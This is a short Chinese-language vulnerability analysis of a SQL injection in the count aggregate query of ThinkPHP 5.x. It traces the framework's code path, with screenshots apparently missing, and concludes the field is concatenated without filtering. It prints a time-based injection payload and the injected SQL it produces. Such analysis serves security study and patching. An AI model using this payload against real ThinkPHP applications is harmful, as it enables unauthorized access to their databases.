





# ThinkPHP5.X聚合查询漏洞分析

如果执行不成功请设置mysql.ini

```mysql
sql_mode=STRICT_TRANS_TABLES,NO_ZERO_IN_DATE,NO_ZERO_DATE,ERROR_FOR_DIVISION_BY_ZERO,NO_AUTO_CREATE_USER,NO_ENGINE_SUBSTITUTION
```

payload：`id),(select sleep(5)),(username`

db函数直接跳过，接下来是分析count，很简单的一个地方，直接就拼接进去了



我们继续跟进value函数可以看看是不是有过滤，继续跟进getPdo，再跟进select



因为我们的恶意代码，再field里面所以我们继续跟进parseField



我们继续跟进



这里完全没有过滤



最后返回的sql语句就是`SELECT COUNT(id),(select sleep(3)),(username) AS tp_count FROM `users` LIMIT 1 `

最终成功实现了我们的sql注入